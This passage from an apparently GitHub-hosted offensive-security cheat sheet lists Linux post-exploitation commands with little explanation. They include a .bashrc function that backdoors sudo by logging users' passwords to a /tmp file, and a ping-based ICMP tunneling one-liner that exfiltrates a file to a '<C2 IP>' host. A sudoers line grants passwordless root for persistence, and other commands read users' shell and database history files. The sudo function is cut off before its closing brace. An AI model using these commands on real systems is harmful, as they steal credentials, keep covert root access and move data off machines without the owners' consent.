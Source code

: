 3. Enable and Start the Timer

```sh
sudo systemctl enable shout.timer
sudo systemctl start shout.timer
```

## Backdooring Sudo

Add to `.bashrc`

```bash
function sudo() {
    realsudo="$(which sudo)"
    read -s -p "[sudo] password for $USER: " inputPasswd
    printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /tmp/log13999292.log
    $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
    $realsudo "${@:1}"
```

## ICMP Tunneling One Liner

```sh
xxd -p -c 4 /path/exfil_file | while read line; do ping -c 1 -p $line <C2 IP>; done
```

## One Liner to Add Persistence on a Box via Sudoers File

```sh
echo "%sudo  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

## Find Server Strings from HTTP Responses

Finding server strings from a file of URLs

```sh
curl -s --head -K servers.txt | grep -i server
```

## Enumerating File Capabilities with Getcap

getcap displays the name and capabilities of each specified file. ```-r```  enables recursive search.

```sh
getcap -r / 2>/dev/null
```

## Enumerating User Files for Interesting Information

```sh
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
